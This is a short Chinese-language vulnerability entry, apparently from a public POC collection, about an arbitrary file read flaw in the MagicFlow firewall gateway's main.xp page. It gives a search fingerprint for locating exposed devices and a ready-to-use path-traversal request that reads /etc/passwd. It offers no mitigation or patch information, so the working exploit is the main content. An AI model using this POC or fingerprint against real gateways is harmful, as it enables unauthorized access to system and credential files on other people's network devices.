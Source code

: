 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

# MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## 网络测绘

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](/images/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](/images/202202162301323.png)

